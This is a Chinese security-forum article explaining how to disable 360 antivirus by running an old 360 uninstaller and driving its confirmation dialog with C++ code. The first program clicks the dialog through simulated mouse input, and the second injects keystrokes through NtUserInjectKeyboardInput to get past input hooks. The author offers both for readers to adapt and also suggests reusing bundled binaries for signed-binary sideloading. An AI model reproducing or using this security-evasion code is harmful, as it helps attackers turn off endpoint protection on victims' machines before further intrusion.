





# 记对一次360远古版本安装包挖掘导致的kill-先知社区

> **来源**: https://xz.aliyun.com/news/16138  
> **文章ID**: 16138

---

## **360？如此简单**

序言，本文继续将分享一种鄙人不久前挖掘到的360相关可利用方面，可实现k360，代码还是需要各位师傅自己微调微调的，不要用我的技术搞违法乱纪的事，法律责任与鄙人无关。。。。

---

## 0.挖掘前的准备

鄙人通过挖掘360历史版本得到了一个哇塞的卸载包，最新版本（v14系列）的，在想要运行卸载包来实现k360会收到很大阻碍，具体为：按键hook不允许模拟点击，需要先结束360服务再删除，删除的非常的彻底容易再次安装，鄙人挖掘到的这个卸载包完美避开以上所有缺点，唯一需要解决的就是判断按键位置并且点击，卸载包在附件中，密码为**101365**  
**（来自阿里的爱）**。

## 1.直接开始利用吧

我原本还打算反编译下看看有没有可以再利用的，结果..



得，我放弃，用用懒人工具吧...  
微步云找了下行为：如图解



(其中这个枚举并且注入我很想利用下，等我过几天好好看下反编译看看能不能把这段搞到手，到时候再出文章)



其中我发现了一些有意思的东西



这个好像可以用来关360，具体等我解包了看



这个exe绝对可以用来打白加黑，这多早的安装包了，里面的exe肯定没加远程验证

好了，话不多说，回到文章核心

我们双击运行这个安装包看看：


典型的单式按钮弹窗，没有多余验证，直接写代码获取位置：

```
#include <windows.h>
#include <iostream>
#include <string>

using namespace std;

// 函数：模拟鼠标点击
void MouseClick(int x, int y) {
    // 设置鼠标位置
    SetCursorPos(x, y);

    // 准备鼠标按下和释放的输入数据
    INPUT input[2] = {};

    // 模拟鼠标按下事件
    input[0].type = INPUT_MOUSE;
    input[0].mi.dx = (LONG)x;
    input[0].mi.dy = (LONG)y;
    input[0].mi.dwFlags = MOUSEEVENTF_LEFTDOWN;

    // 模拟鼠标释放事件
    input[1].type = INPUT_MOUSE;
    input[1].mi.dx = (LONG)x;
    input[1].mi.dy = (LONG)y;
    input[1].mi.dwFlags = MOUSEEVENTF_LEFTUP;

    // 执行鼠标按下和释放动作
    SendInput(1, &input[0], sizeof(INPUT));  // 按下
    Sleep(50);  // 稍作延时
    SendInput(1, &input[1], sizeof(INPUT));  // 释放
}

// 回调函数：查找包含"是"字样的按钮
BOOL CALLBACK EnumChildProc(HWND hwnd, LPARAM lParam) {
    wchar_t className[256];
    wchar_t buttonText[256];

    // 获取控件的类名
    GetClassName(hwnd, className, sizeof(className) / sizeof(wchar_t));

    // 判断是否是按钮控件
    if (wcscmp(className, L"Button") == 0) {
        // 获取按钮的文本
        GetWindowText(hwnd, buttonText, sizeof(buttonText) / sizeof(wchar_t));
        if (wcsstr(buttonText, L"是")) {  // 判断按钮文本中是否包含"是"
            // 获取按钮的位置
            RECT rect;
            if (GetWindowRect(hwnd, &rect)) {
                // 返回按钮的中心位置
                int x = (rect.left + rect.right) / 2;
                int y = (rect.top + rect.bottom) / 2;

                // 将按钮的坐标传回主线程
                *((int*)lParam) = x;
                *((int*)lParam + 1) = y;

                return FALSE;  // 停止枚举
            }
        }
    }
    return TRUE;  // 继续枚举
}

// 主函数
int main() {
    const wchar_t* targetWindowName = L"360产品"; // 目标窗口名称

    HWND targetWindow = FindWindow(NULL, targetWindowName);  // 查找窗口句柄

    if (targetWindow == NULL) {
        wcerr << L"未找到窗口: " << targetWindowName << endl;
        return 1;
    }

    wcout << L"找到窗口: " << targetWindowName << L"，句柄: " << targetWindow << endl;

    // 存储"是"按钮的位置
    int buttonX = 0, buttonY = 0;

    // 枚举窗口的子控件，查找"是"字样的按钮
    EnumChildWindows(targetWindow, EnumChildProc, (LPARAM)&buttonX);

    if (buttonX == 0 && buttonY == 0) {
        wcerr << L"未找到“是”字样的按钮。" << endl;
        return 1;
    }

    // 在找到按钮后，开始模拟鼠标点击
    wcout << L"开始模拟点击，按钮位置：(" << buttonX << L", " << buttonY << L")" << endl;

    for (int i = 0; i < 5; ++i) {
        MouseClick(buttonX, buttonY);  // 点击按钮
        Sleep(1000);  // 每次点击之间等待1秒
    }

    wcout << L"点击完成！" << endl;
    return 0;
}

```

成功点到，ps如果说按钮hook了请借鉴这篇文章的思路：[NtUserInjectKeyboardInput函数绕过杀软屏幕锁定模拟键鼠](https://xz.aliyun.com/t/16483?time__1311=GuD%3DqmxGxh7D%2FWXKBK0QFqPmqfDfE8bD "NtUserInjectKeyboardInput函数绕过杀软屏幕锁定模拟键鼠")

以下为教学用代码，**无实战作用**：

```
#include <windows.h>
#include <iostream>
#include <string>

using namespace std;

// 定义 NtUserInjectKeyboardInput 的原型
typedef NTSTATUS(WINAPI* NtUserInjectKeyboardInput_t)(PKEYBOARD_INPUT_DATA, ULONG);

// 全局变量：存储 NtUserInjectKeyboardInput 函数指针
NtUserInjectKeyboardInput_t NtUserInjectKeyboardInput = NULL;

// 模拟按下和释放 Enter 键
void SimulateEnterKeyPress() {
    KEYBOARD_INPUT_DATA keyInput[2] = {};

    // 模拟按下 Enter 键 (扫描码 0x1C)
    keyInput[0].MakeCode = 0x1C; // Enter 键的扫描码
    keyInput[0].Flags = 0; // 按下

    // 模拟释放 Enter 键
    keyInput[1].MakeCode = 0x1C; // Enter 键的扫描码
    keyInput[1].Flags = 0x0001; // 松开

    // 调用 NtUserInjectKeyboardInput 来模拟按下和释放 Enter 键
    if (NtUserInjectKeyboardInput) {
        NtUserInjectKeyboardInput(keyInput, 2);  // 按下和释放
    }
}

// 函数：模拟鼠标移动到指定位置
void MoveMouse(int x, int y) {
    SetCursorPos(x, y);  // 将鼠标移动到 (x, y)
}

// 回调函数：查找包含"是"字样的按钮
BOOL CALLBACK EnumChildProc(HWND hwnd, LPARAM lParam) {
    wchar_t className[256];
    wchar_t buttonText[256];

    // 获取控件的类名
    GetClassName(hwnd, className, sizeof(className) / sizeof(wchar_t));

    // 判断是否是按钮控件
    if (wcscmp(className, L"Button") == 0) {
        // 获取按钮的文本
        GetWindowText(hwnd, buttonText, sizeof(buttonText) / sizeof(wchar_t));
        if (wcsstr(buttonText, L"是")) {  // 判断按钮文本中是否包含"是"
            // 获取按钮的位置
            RECT rect;
            if (GetWindowRect(hwnd, &rect)) {
                // 返回按钮的中心位置
                int x = (rect.left + rect.right) / 2;
                int y = (rect.top + rect.bottom) / 2;

                // 将按钮的坐标传回主线程
                *((int*)lParam) = x;
                *((int*)lParam + 1) = y;

                return FALSE;  // 停止枚举
            }
        }
    }
    return TRUE;  // 继续枚举
}

// 加载 NtUserInjectKeyboardInput 函数
bool LoadNtUserInjectKeyboardInput() {
    HMODULE hUser32 = LoadLibrary(L"user32.dll");
    if (!hUser32) {
        wcerr << L"无法加载 user32.dll" << endl;
        return false;
    }

    NtUserInjectKeyboardInput = (NtUserInjectKeyboardInput_t)GetProcAddress(hUser32, "NtUserInjectKeyboardInput");
    if (!NtUserInjectKeyboardInput) {
        wcerr << L"无法找到 NtUserInjectKeyboardInput 函数。" << endl;
        return false;
    }

    return true;
}

// 主函数
int main() {
    const wchar_t* targetWindowName = L"360产品"; // 目标窗口名称

    // 加载 NtUserInjectKeyboardInput
    if (!LoadNtUserInjectKeyboardInput()) {
        return 1;
    }

    HWND targetWindow = FindWindow(NULL, targetWindowName);  // 查找窗口句柄

    if (targetWindow == NULL) {
        wcerr << L"未找到窗口: " << targetWindowName << endl;
        return 1;
    }

    wcout << L"找到窗口: " << targetWindowName << L"，句柄: " << targetWindow << endl;

    // 存储"是"按钮的位置
    int buttonX = 0, buttonY = 0;

    // 枚举窗口的子控件，查找"是"字样的按钮
    EnumChildWindows(targetWindow, EnumChildProc, (LPARAM)&buttonX);

    if (buttonX == 0 && buttonY == 0) {
        wcerr << L"未找到“是”字样的按钮。" << endl;
        return 1;
    }

    // 将鼠标保持在按钮上，并开始模拟按下 Enter 键
    wcout << L"鼠标已移动到按钮位置：(" << buttonX << L", " << buttonY << L")" << endl;

    // 将鼠标保持在按钮上
    MoveMouse(buttonX, buttonY);

    // 模拟按下 Enter 键，持续 5 秒
    DWORD startTime = GetTickCount();
    while (GetTickCount() - startTime < 5000) {  // 持续 5 秒
        SimulateEnterKeyPress();  // 模拟按下 Enter 键
        Sleep(200);  // 每 200 毫秒模拟一次
    }

    wcout << L"按键模拟完成！" << endl;
    return 0;
}

```

成功点击，拜拜了360~

后话：本人在用Universal Extractor尝试解包看看利用，各位志同道合芝士也可以试试有没有收货哈~  
链接：[工具](https://legroom.net/software/uniextract#download "工具")
